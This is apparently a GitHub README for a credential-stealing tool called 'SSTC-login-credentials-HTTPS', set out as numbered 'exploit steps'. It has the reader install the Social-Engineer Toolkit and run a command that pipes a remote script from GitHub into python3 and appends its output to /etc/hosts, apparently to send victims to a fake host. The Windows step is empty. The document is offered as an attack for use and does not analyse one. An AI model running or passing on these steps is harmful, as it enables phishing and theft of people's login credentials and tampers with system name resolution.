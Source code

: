 # SSTC-login-credentials-HTTPS stealing credentials
- by nu11secur1ty

![](https://github.com/nu11secur1ty/SSTC-HTTPS-login-credentials/blob/master/logo/http.png)

# Exploit steps:
1. - Installing requirements
`pip install -r requirements.txt`

2. - Prepitr packages
For other Linux distro attackers
```
$ git clone https://github.com/trustedsec/social-engineer-toolkit/ set/
$ cd set
$ pip install -r requirements.txt
```
// For kali 
```bash 
setoolkit
```

3. - Creating hosts exploit
- For Linux
```bash
curl -s https://raw.githubusercontent.com/nu11secur1ty/SSTC-HTTPS-login-credentials/master/hosts/modules/pyexploitcreate/pyexploitcreateIP_host_fake.py | python3 >> /etc/hosts
```
- For Windows
```
```


